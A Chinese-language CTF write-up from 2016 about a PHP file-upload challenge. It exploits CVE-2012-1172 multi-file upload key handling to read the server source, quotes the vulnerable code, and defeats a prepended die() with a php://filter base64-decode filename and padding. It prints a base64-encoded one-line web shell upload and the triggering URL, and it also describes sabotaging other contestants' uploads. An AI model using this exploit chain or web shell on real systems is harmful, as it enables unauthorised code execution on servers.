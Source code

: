title: 三个白帽之火币网2W大挑战
date: 2016-07-14 23:42:27
tags: ctf
---

乌云峰会那两天放的题，没人撸出来，今晚又开题了
<!--more-->

根据上次获得的情报和这次放出的两个tips:
> 1.多文件上传，php源码对数组键值处理错误导致安全漏洞 
> 2.base64解码导致字符丢失

开始前我就开始搜了，然后搜到了一个`CVE-2012-1172`，根据这CVE找到一篇blog: <https://nealpoole.com/blog/2011/10/directory-traversal-via-php-multi-file-uploads/>

根据这篇博客中的代码，还有之前得到的情报，可以猜到大概就是该漏洞

我们来分析一下，我用phpstudy，在服务器上搭了一个5.2.17的php+apache服务, 测试代码如下：
```
//upload.php
<?php
error_reporting(-1);
ini_set("display_errors", 1);
print_r($_FILES);
?>
<form action="" method="POST" enctype="multipart/form-data" >
<input type="file" name="pictures1">
<input type="file" name="pictures2">
<input type="file" name="pictures3">
<input type="submit" value="submit">
```

然后根据博客中的描述，发现有一下两种情况:
![baimao](http://qn.lazysheep.cc/img/baimaowj1.png)
和
![baimao](http://qn.lazysheep.cc/img/baimaowj2.png)

上图中还带了一个正常情况下`$_FILES`的键值

在乌云峰会当时RR菊苣日题的情况能分析出此题大致的流程: 通过文件读取之类的函数获取上传缓存文件的内容 -> 进行base64编码 -> 存入数据库 -> 当访问相应的链接时 -> 请求数据库，获取该文件base64编码的内容 -> base64解码后开头加上字符串`<?php die;?>` -> 写入`upload`目录下 -> 读取该文件

然后也有大致的日题思路: 通过文件上传这类的漏洞读取源码 -> 代码审计，根据提示是base64解码这里有某些bug，通过该bug可以把干掉死亡之`die`

根据上述的流程和思路，第一步大致很清晰了，通过某些方法，使`tmp_name`可控，则可以读取任意文件base64编码后存入数据库，根据该思路猜测上述CVE大致的利用方法：
![baimao](http://qn.lazysheep.cc/img/baimaowj3.png)

PS: 文件名和缓存文件名是必须的两个参数

一般我们获取文件名和缓冲文件名是使用`$_FILES['xxx']['name']; $_FILES['xxx']['tmp_name']`
而该题是多文件上传，所以可猜测是使用`$_FILES['xxx']['name'][$key]; $_FILES['xxx']['tmp_name'][$key]`
当`$key = "[name"` 时, `$_FILES['xxx']['tmp_name'][$key]`是可控的

而第二步猜测在比赛前却没搜到答案

-----

开始做题，第一步和我猜想的几乎一样，但是在回家上电梯的时候，我却想到一个搅屎的方法，因为该题上传的每一个文件，都有一个对应的链接，比如: `index.php?download=803&filename=upload/evilddog2`, 在该链接点击之前，`upload`目录下是不存在我上传的`evilddog2`文件，当我点击个链接后，才会存在该文件，同时该链接失效.

根据该流程，我可以写一个脚本，去访问别人上传的文件，会导致: 1.以为自己没上传成功(其实成功了，在upload目录下会产生该文件). 2. 我可以看别人的做题进度，思路之类的. 

比如，该题的第一份源码不是我自己日出来的，是我随便点了一个`ccc`的的文件出来的.

还是说说正规的思路吧:
![baimao](http://qn.lazysheep.cc/img/baimaowj4.png)

右边这个链接`index.php?download=803&filename=upload/evilddog2`点开后就是`index.php`的源码了

```
<?php
error_reporting(E_ALL^E_NOTICE^E_WARNING);
include 'init.php';

$nowtime = time();
if(is_array($_FILES) && !empty($_FILES))
{
	//var_dump($_FILES);
	foreach($_FILES["homework"]["name"] as $key => $name) 
	{
		if (!empty($_FILES["homework"]["name"][$key]))
		{	
			$filename = htmlspecialchars($_FILES["homework"]["name"][$key]);
			$tmpFile = $_FILES["homework"]["tmp_name"][$key];
			//$size =  $_FILES["homework"]["size"][$key];
		//	echo $tmpFile;
			$content = base64_encode(file_get_contents($tmpFile));
			$echoCentent[] = $content;
			if(!empty($content))
			{
				$sql = "insert into homework(`filename`,`content`,`time`) values('".$filename."','".$content."','".$nowtime."')";
				if(!mysql_query($sql))
				{
					die('hello hacker!');
				}
			}
			
		}
	}
}

if(isset($_GET['download']) and isset($_GET['filename']))
{
	$download = addslashes(htmlspecialchars_decode($_GET['download']));
	$filename = addslashes(htmlspecialchars_decode($_GET['filename']));
	if(file_exists($filename))
	{
		unlink($filename);
	}
	$sql = "select content from homework where id='$download'";
	$result = mysql_query($sql);
	while($row = mysql_fetch_array($result))
	{
		
		$devalContents = "<?php die; ?>\n"; 
		$devalContents .= base64_decode($row['content']);
		file_put_contents("$filename",$devalContents);
		$filename = str_replace("upload/",'',$filename);
		header("location:upload/".urlencode($filename));
	}
	$sql = "delete from homework where id='$download';";
	if(!mysql_query($sql))
	{
		die("hello hacker!");
	}
	
}
//PS:只贴PHP部分
?>
```

上面就是该题的主要的源码了，然后就是进入下一步，关键代码:
```
$devalContents = "<?php die; ?>\n"; 
$devalContents .= base64_decode($row['content']);
file_put_contents("$filename",$devalContents);
$filename = str_replace("upload/",'',$filename);
header("location:upload/".urlencode($filename));
```

搜到了一个链接<http://www.2cto.com/Article/201303/192410.html>

我们发现`$filename`是可控参数，所以可以利用伪协议:`php://filter/write=convert.base64-decode/resource=upload/ddog.php`

也就是说，把`$devalContents`变量的内容进行base64解码后写入`upload/ddog.php`文件.

这里有一个地方需要注意，会出现Incorrect padding错误，在php中不会提示，以下是python运行结果:
```
>>> p
'<?php die; ?>\n'

>>> payload
'<?php phpinfo();?>'

>>> x1 = base64.b64encode(payload)

>>> base64.b64decode(p+x1)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/base64.py", line 78, in b64decode
    raise TypeError(msg)
TypeError: Incorrect padding
Incorrect padding
```

所以我们需要填充字符

```
>>> base64.b64decode(p+"s"+x1)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/base64.py", line 78, in b64decode
    raise TypeError(msg)
TypeError: Incorrect padding
Incorrect padding

>>> base64.b64decode(p+"ss"+x1)
'\xa6\x1a]\x89\xeb,<?php phpinfo();?>'

>>> x1
'PD9waHAgcGhwaW5mbygpOz8+'
```

如果我们把`ssPD9waHAgcGhwaW5mbygpOz8+`作为文件内容
`php://filter/write=convert.base64-decode/resource=upload/ddog.php`作为文件名
则将会在`upload/ddog.php`中写入`\xa6\x1a]\x89\xeb,<?php phpinfo();?>`

成功bypass死亡之`die`

上传内容为:
```
Content-Disposition: form-data; name="homework[]"; filename="evilddog2"
Content-Type: application/x-php

ssPD9waHAgJF9HRVRbYV0oJF9QT1NUW2Z1Y2tkZG9nXSk7Pz4
```

访问链接: `/index.php?download=711&filename=php://filter/write=convert.base64-decode/resource=upload/fuckevilddog.php`

连上蚁剑, GetFlag!
![baimao](http://qn.lazysheep.cc/img/baimaowj5.png)


